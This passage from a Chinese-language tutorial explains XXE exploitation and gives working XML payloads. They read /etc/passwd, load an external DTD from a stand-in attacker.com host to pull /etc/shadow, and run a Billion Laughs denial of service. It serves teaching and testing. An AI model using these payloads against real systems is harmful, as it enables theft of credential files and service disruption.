 #### XXE 利用场景 (Exploitation Scenarios)

XXE 利用主要分为两大类，取决于是否能直接在响应中看到注入实体的内容：

*   **有回显 (In-band XXE / Classic XXE):** 攻击者可以直接在应用程序的 HTTP 响应中看到被引用的外部实体内容。
*   **无回显 / 盲注 (Out-of-band XXE / Blind XXE):** 应用程序处理了外部实体，但其内容没有在响应中返回。需要利用带外通道（OOB）来传输数据。

##### 1. 有回显 XXE (Exploiting XXE with Direct Feedback)

*   **利用通用实体读取本地文件:**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
      <!ENTITY fileContent SYSTEM "file:///etc/passwd"> <!-- Windows: "file:///c:/windows/win.ini" -->
    ]>
    <userInput>&fileContent;</userInput> <!-- 在 XML 内容中引用 -->
    ```
    如果应用程序回显了 `<userInput>` 标签内的内容，就会显示 `/etc/passwd` 的内容。

*   **利用参数实体和外部 DTD (间接读取):**
    有时直接引用外部通用实体可能被过滤，但允许引用外部参数实体。
    **发送到服务器的 XML:**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
      <!ENTITY % externalDTD SYSTEM "http://attacker.com/external.dtd">
      %externalDTD; <!-- 加载并解析外部 DTD -->
    ]>
    <data>&content;</data> <!-- 引用在 external.dtd 中定义的实体 -->
    ```
    **攻击者服务器上的 `external.dtd` 文件:**
    ```dtd
    <!ENTITY content SYSTEM "file:///etc/shadow">
    ```

*   **实体扩展攻击 (Billion Laughs Attack - DoS):**
    通过定义递归实体，导致解析器在展开实体时指数级地消耗内存和 CPU，造成拒绝服务。
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!-- ... 重复定义更多层 ... -->
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

##### 2. 无回显 / 盲 XXE (Exploiting Blind XXE using Out-of-Band Techniques)

当无法直接看到文件内容时，需要构造 payload，让服务器将数据发送到攻击者控制的外部服务器。
